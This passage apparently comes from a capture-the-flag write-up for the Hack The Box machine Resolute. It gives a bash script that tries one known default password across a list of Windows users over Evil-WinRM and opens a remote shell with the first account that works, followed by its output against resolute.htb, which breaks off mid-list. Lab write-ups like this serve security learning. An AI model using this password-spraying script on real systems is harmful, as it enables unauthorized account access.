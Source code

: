 Then, for fun, I wrote the following script to do essentially the same thing.

```bash
#!/bin/bash
# Author: Zach Heller
# Note: This is way less efficient than using Hydra. I just felt like writing some bash.

if [ $# != 3 ] ; then
	echo "usage: known_pass.sh {users.txt} {known password} {ip}"
	echo "Uses Evil-WinRM to check if a list of users have a known default password."
	exit
fi

users_file="$1"
default_pass="$2"
IP="$3"
success_str="PS"

while read -r user; do
	echo "Trying $user:$default_pass"
	evil-winrm -u $user -p $default_pass -i $IP 2>/dev/null | {
		while read -r line; do
			if [[ $line =~ "$success_str" ]]; then
				echo "$user" >> .tmp
				echo "SUCCESS"
				break
			elif [[ $line =~ "error" ]]; then
				echo "BAD CREDENTIALS"
				break
			fi
		done
	}	
done < $users_file
read -r valid_user < .tmp
rm .tmp
evil-winrm -u $valid_user -p $default_pass -i $IP
```

With my script, we get a Evil-WinRM shell for the user melanie:

```shell
root@kali:~/HackTheBox/Resolute# known_pass users.txt Welcome123! resolute.htb
Trying Administrator:Welcome123!
BAD CREDENTIALS
Trying Guest:Welcome123!
BAD CREDENTIALS
Trying krbtgt:Welcome123!
BAD CREDENTIALS
Trying DefaultAccount:Welcome123!
BAD CREDENTIALS
Trying ryan:Welcome123!
BAD CREDENTIALS
Trying marko:Welcome123!
BAD CREDENTIALS
Trying sunita:Welcome123!
BAD CREDENTIALS
Trying abigail:Welcome123!
BAD CREDENTIALS
Trying marcus:Welcome123!
BAD CREDENTIALS
Trying sally:Welcome123!
BAD CREDENTIALS
Trying fred:Welcome123!
BAD CREDENTIALS
Trying angela:Welcome123!
```